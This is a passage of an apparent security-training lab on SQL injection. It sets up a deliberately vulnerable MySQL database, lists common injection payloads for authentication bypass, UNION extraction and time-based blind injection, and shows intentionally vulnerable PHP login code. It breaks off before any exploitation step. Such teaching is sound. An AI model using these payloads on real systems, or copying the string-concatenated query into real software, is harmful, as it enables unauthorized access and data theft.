.png)

# Lab: Exploiting SQL Injection Vulnerabilities

**Estimated time:** 45 minutes

---

## Introduction

In this lab, we will explore SQL injection vulnerabilities in a MySQL database environment. SQL injection is a code injection technique that allows attackers to execute arbitrary SQL queries on a database. This vulnerability can compromise the integrity, confidentiality, and availability of data.

By understanding how SQL injection works and how to exploit such vulnerabilities, we can better implement preventive measures and secure our applications. This lab will provide hands-on experience with identifying, exploiting, and mitigating SQL injection attacks using a simple database schema.

---

## Learning Objectives

| Objective                                        | Description                                                                                                                      |
| :----------------------------------------------- | :------------------------------------------------------------------------------------------------------------------------------- |
| **Identify SQL Injection Vulnerabilities** | Learn how to recognize potential SQL injection points in a web application by analyzing vulnerable SQL queries                   |
| **Perform SQL Injection Attacks**          | Execute various types of SQL injection attacks, such as extracting data, bypassing authentication, and causing denial of service |
| **Understand the Impact**                  | Assess the impact of SQL injection attacks on the security and integrity of a database and the overall system                    |
| **Mitigate SQL Injection Risks**           | Implement best practices and security measures to prevent SQL injection vulnerabilities                                          |

---

## ⚠️ Important Disclaimer

> **This lab is for educational purposes only. SQL injection techniques should only be practiced in authorized environments like this lab. Never attempt these techniques on production systems or without explicit written permission.**

---

## Concepts Covered

### What is SQL Injection?

SQL injection (SQLi) is a code injection technique that exploits vulnerabilities in an application's software by inserting malicious SQL statements into an entry field.

### Common SQL Injection Payloads

| Payload                 | Purpose                                     |
| :---------------------- | :------------------------------------------ |
| `' OR '1'='1`         | Bypass authentication                       |
| `' OR 1=1 --`         | Return all rows (comment out rest of query) |
| `' UNION SELECT ...`  | Extract data from other tables              |
| `' OR SLEEP(5) --`    | Time-based blind injection                  |
| `' AND 1=0 UNION ...` | Error-based extraction                      |

### SQL Injection Types

| Type                    | Description                                                        |
| :---------------------- | :----------------------------------------------------------------- |
| **In-band SQLi**  | Attacker uses the same channel to launch attack and gather results |
| **Error-based**   | Attacker relies on error messages to extract data                  |
| **Union-based**   | Attacker uses UNION operator to combine query results              |
| **Blind SQLi**    | Attacker infers data based on application behavior                 |
| **Time-based**    | Attacker uses time delays to infer data                            |
| **Boolean-based** | Attacker uses true/false conditions to infer data                  |

---

## Lab Environment Setup

Before we start creating the vulnerable SQL queries and testing execution, we need to initiate the lab environment.

### Step 1: Access Databases

In the Right Pane of your lab environment, click on **DATABASES**

![DATABASES menu]



### Step 2: Select MySQL

Click on **MySQL** under DATABASES

![MySQL selection]



### Step 3: Create Database Instance

Click on **Create**

![Create database]



### Step 4: Create phpMyAdmin Instance

Click on **Create phpMyAdmin**

![Create phpMyAdmin]



### Step 5: Open SQL Interface

Click on **SQL** to open the SQL query interface

![SQL interface]





---

## Exercise 1: Create a Vulnerable Database

In this exercise, you will create a sample database with vulnerable SQL queries for testing.

### Step 1: Create the Database

```sql
CREATE DATABASE vulnerable_lab;
USE vulnerable_lab;
```





### Step 2: Create Users Table

```sql
CREATE TABLE users (
    user_id INT PRIMARY KEY AUTO_INCREMENT,
    username VARCHAR(50) NOT NULL,
    password VARCHAR(100) NOT NULL,
    email VARCHAR(100),
    role VARCHAR(20) DEFAULT 'user'
);
```





### Step 3: Insert Sample Data

```sql
INSERT INTO users (username, password, email, role) VALUES
('admin', 'admin123', 'admin@example.com', 'admin'),
('john_doe', 'pass123', 'john@example.com', 'user'),
('jane_smith', 'secure456', 'jane@example.com', 'user'),
('bob_wilson', 'bobpass', 'bob@example.com', 'user'),
('alice_jones', 'alice789', 'alice@example.com', 'manager');
```





### Step 4: Create Products Table

```sql
CREATE TABLE products (
    product_id INT PRIMARY KEY AUTO_INCREMENT,
    product_name VARCHAR(100),
    price DECIMAL(10,2),
    description TEXT
);
```





### Step 5: Insert Product Data

```sql
INSERT INTO products (product_name, price, description) VALUES
('Laptop', 999.99, 'High-performance laptop'),
('Mouse', 29.99, 'Wireless mouse'),
('Keyboard', 79.99, 'Mechanical keyboard'),
('Monitor', 299.99, '27-inch 4K monitor'),
('Headphones', 149.99, 'Noise-cancelling headphones');
```





### Step 6: Verify Data

```sql
SELECT * FROM users;
SELECT * FROM products;
```

**Expected Output:**

```
user_id | username    | password   | email                 | role
--------|-------------|------------|-----------------------|--------
1       | admin       | admin123   | admin@example.com     | admin
2       | john_doe    | pass123    | john@example.com      | user
3       | jane_smith  | secure456  | jane@example.com      | user
4       | bob_wilson  | bobpass    | bob@example.com       | user
5       | alice_jones | alice789   | alice@example.com     | manager
```



---

## Exercise 2: Identify SQL Injection Vulnerabilities

### Vulnerable Login Query

Consider the following vulnerable PHP code that concatenates user input directly into the SQL query:

```php
// VULNERABLE CODE - DO NOT USE IN PRODUCTION
$username = $_POST['username'];
$password = $_POST['password'];
$query = "SELECT * FROM users WHERE username = '$username' AND password = '$password'";
$result = mysqli_query($conn, $query);
```

### Step 1: Test Normal Login

A normal login would use:

- Username: `john_doe`
- Password: `pass123`

The resulting query:

```sql
